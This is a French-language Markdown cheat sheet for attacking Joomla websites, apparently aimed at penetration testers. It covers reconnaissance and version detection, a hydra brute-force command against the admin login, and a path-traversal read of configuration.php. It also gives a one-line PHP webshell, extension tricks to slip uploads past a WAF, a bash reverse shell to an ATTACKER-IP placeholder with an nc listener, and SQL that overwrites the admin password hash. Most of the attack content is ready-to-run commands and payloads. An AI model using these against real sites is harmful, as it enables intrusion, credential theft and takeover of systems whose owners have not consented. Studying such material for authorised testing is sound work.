

## Reconnaissance et Énumération

### Identification de la cible
L'identification de **Joomla** repose sur l'analyse des headers, des fichiers de métadonnées et de la structure des répertoires.

```bash
curl -s http://TARGET/ | grep -i "joomla"
curl -s http://TARGET/robots.txt
curl -s http://TARGET/README.txt | head -n 10
```

### Détection de version
La version exacte est déterminée via les fichiers manifestes ou les fichiers de cache.

```bash
curl -s http://TARGET/administrator/manifests/files/joomla.xml | grep -i version
curl -s http://TARGET/plugins/system/cache/cache.xml | grep -i version
```

### Scan automatisé
L'utilisation d'outils spécialisés permet d'identifier les composants installés et les vulnérabilités potentielles.

```bash
droopescan scan joomla -u http://TARGET
python2.7 joomlascan.py -u http://TARGET
```

### Énumération des composants
Les composants sont accessibles via le paramètre **option** dans l'URL.

```bash
curl -s http://TARGET/ | grep -oE 'index\.php\?option=com_[a-zA-Z0-9_]+' | sort -u
```

> [!info]
> Vérifier systématiquement les composants tiers, souvent plus vulnérables que le cœur de **Joomla**.

## Répertoires sensibles et fichiers critiques

| Fichier | Intérêt |
| :--- | :--- |
| `README.txt` | Version approximative |
| `LICENSE.txt` | Légal, parfois modifié |
| `administrator/manifests/files/joomla.xml` | Version exacte |
| `plugins/system/cache/cache.xml` | Version approximative |
| `configuration.php` | Critique (base de données, secret) |
| `.htaccess`, `.user.ini` | Contrôles de sécurité |

> [!warning]
> Attention aux fichiers de configuration (**configuration.php**) contenant des credentials en clair.

> [!tip]
> Le répertoire **/administrator/** est la cible prioritaire pour l'énumération.

### Analyse de la configuration de la base de données (MySQL/MariaDB)
Une fois le fichier `configuration.php` extrait, les variables `$user`, `$password` et `$db` permettent d'accéder directement à la base de données si le port 3306 est exposé ou via un tunnel SSH/Web.

```php
// Exemple de contenu extrait de configuration.php
public $user = 'db_user';
public $password = 'db_password';
public $db = 'joomla_db';
```

```bash
# Connexion directe si accès réseau autorisé
mysql -u db_user -p'db_password' -h TARGET joomla_db
```

## Exploitation

### Brute-force du backend
L'interface d'administration est située à `/administrator/index.php`.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/administrator/index.php:username=^USER^&passwd=^PASS^&task=login&option=com_login:Username and password do not match"
python3 joomla-brute.py -u http://TARGET -w /path/to/wordlist.txt -usr admin
```

### Vulnérabilités de type LFI/RFI
L'inclusion de fichiers est souvent possible via des composants mal configurés.

```bash
http://TARGET/index.php?option=com_media&view=media&file=../../configuration.php
```

### Exploitation RCE (Upload)
L'upload de fichiers malveillants peut être tenté via les composants de gestion de médias.

```php
<?php system($_GET['cmd']); ?>
```

### Techniques de bypass WAF pour les payloads d'upload
Si un WAF bloque les extensions `.php`, tester les variantes d'extensions ou l'encodage.

```bash
# Tentative de bypass d'extension
mv shell.php shell.php.jpg
mv shell.php shell.php5
# Utilisation de null byte ou encodage double URL si applicable
```

> [!danger]
> Risque de suppression de fichiers critiques lors de l'exploitation de vulnérabilités de type File Deletion.

## CVEs notables

| CVE ID | Type | Version concernée |
| :--- | :--- | :--- |
| **CVE-2019-10945** | Auth. File Deletion + Traversal | ≤ 3.9.4 |
| **CVE-2015-7297** | SQL Injection | ≤ 3.4.4 |
| **CVE-2015-7857** | RCE via Upload | ≤ 3.4.5 |
| **CVE-2016-8869** | LFI | `com_fields` |
| **CVE-2017-14595** | RCE | `com_fields` |
| **CVE-2020-35616** | SQL Injection | `com_modules` |

## Post-Exploitation

### Accès au shell
Une fois le webshell déposé, l'exécution de commandes s'effectue via le paramètre défini.

```bash
# Écoute côté attaquant
nc -lvnp 4444

# Payload de reverse shell
<?php system("bash -c 'bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1'"); ?>
```

### Privilege Escalation spécifique à Joomla
Si vous avez accès à la base de données via **SQL Injection** ou accès direct, vous pouvez modifier le mot de passe de l'administrateur.

```sql
-- Générer un hash bcrypt pour 'password123'
-- Mettre à jour l'utilisateur admin
UPDATE `#__users` SET `password` = '$2y$10$...' WHERE `username` = 'admin';
```

### Analyse des logs pour détection d'IDS/WAF
Vérifier les logs d'accès pour corréler les tentatives d'exploitation avec les réponses du serveur (403 Forbidden, 406 Not Acceptable).

```bash
# Analyse des logs Apache/Nginx pour identifier les blocages WAF
grep -E "403|406" /var/log/apache2/access.log | tail -n 20
```

### Analyse de configuration
La lecture du fichier **configuration.php** permet de récupérer les accès à la base de données (**MySQL**/**MariaDB**) et les clés de session.

```bash
curl http://TARGET/configuration.php
```

Les sujets liés à ces techniques incluent l'**Enumeration**, le **Web**, les **Webshells**, le **Reverse Shell**, l'**Authentication** et les **SQL Injection**.
```